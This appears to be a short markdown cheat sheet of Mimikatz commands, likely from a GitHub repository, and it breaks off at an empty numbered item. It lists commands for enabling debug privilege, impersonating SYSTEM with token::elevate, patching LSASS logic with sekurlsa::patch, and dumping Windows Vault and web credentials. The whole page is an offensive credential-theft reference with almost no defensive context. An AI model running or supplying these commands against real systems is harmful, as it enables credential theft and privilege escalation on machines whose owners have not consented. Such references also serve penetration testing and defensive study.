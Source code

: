 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### Miscellaneous

1) Shows privileges on machine ( Ensure output is "20 OK")

        privilege::debug

2) Impersonate SYSTEM

        token::elevate

De-escalate from SYSTEM

        token::revert

3) Altering LSASS Logic (Dump network share credentials, RDP passwords, etc. Not recommended.)

Prevent LSASS from checking the credential type

        sekurlsa::patch 

### Credentials Dumping

1) Windows Vault stored credentials dumping (passwords and authentication tokens)

       vault::cred

2) Web Credentials Dumping

       vault::list

3) 


